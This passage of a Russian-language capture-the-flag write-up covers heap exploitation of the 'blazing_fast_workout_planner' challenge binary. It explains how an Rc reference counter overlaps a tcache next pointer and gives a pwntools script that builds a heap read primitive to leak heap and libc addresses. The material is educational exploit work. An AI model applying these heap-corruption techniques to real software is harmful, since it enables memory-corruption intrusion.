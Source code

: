 ## Эксплуатация

### Произвольное чтение кучи

Для лучшего понимания опишу внутреннюю структуру памяти объекта `Exercise`. Именно счетчик `strong`
увеличивается итератором `core::iter::repeat_n`, который по совместительству является указателем
`next` для чанка в tcache

```cpp
struct alloc::rc::Rc<blazing_fast_workout_planner::Exercise, alloc::alloc::Global> {
    unsigned long strong;  // strong references counter
    unsigned long weak;    // weak references counter

    // Exercise name `Vec<u8>`
    unsigned long cap;
    char* data;
    unsigned long len;

    // Exercise description `Vec<u8>`
    unsigned long cap;
    char* data;
    unsigned long len;
}
```

С помощью описанной ранее уязвимости научимся контролировать поле `data` данного объекта. Стоит
отметить, что на инстансах стоят довольно жесткие ограничения &ndash; **15 секунд** на эксплоит,
из-за чего в среднем мы можем запускать тренировки только 0x60 раз (что я заметил не сразу и что
привело к переписыванию эксплоита с нуля)

Сформируем на куче особый феншуй: 0x50 (1-й в tcache, используется в 1-й тренировке как упражнение),
0x20 (аллоцирован), 0x50 (2-й в tcache). Запустим первую тренировку 16 раз, переместив тем самым
указатель на следующий чанк на 0x50 (подразумевается, что начало кучи в 0x55xxxxxA4xxx)

Изменяя описание только что созданного упражнения, мы можем контролировать начало другого объекта,
включая наименьшие 2 байта указателя на название упражнения. Таким образом получаем примитив чтения
на куче, с помощью которого можем ликнуть адрес самой кучи и libc

```python
# Overlap a part of exercise chunk with controllable description
f1, f2 = gen_buf(0x18), gen_buf(0x18)
add(f1, cyclic(0x48))
add(b'arb_read1', cyclic(0x48))

victim1 = gen_buf()
add(victim1, cyclic(0x18))
plan({victim1: 0})

add(f1, cyclic(0x18))
add(b'arb_read1', cyclic(0x18))
add(gen_buf(0x18), cyclic(0x18))

add(victim1, b'foo')

for i in range(0x10):  # Move next pointer 0x50
    io.sendlineafter(MENU, b'3')
    io.sendlineafter(PT, b'1')

add(gen_buf(0x18), cyclic(0x18))

add(b'control1', flat({0x20: [2, 1, 8, p16(0x6ff0)]}))
plan({b'arb_read1': 1})

io.sendlineafter(MENU, b'3')  # Sanity check for ASLR guess
```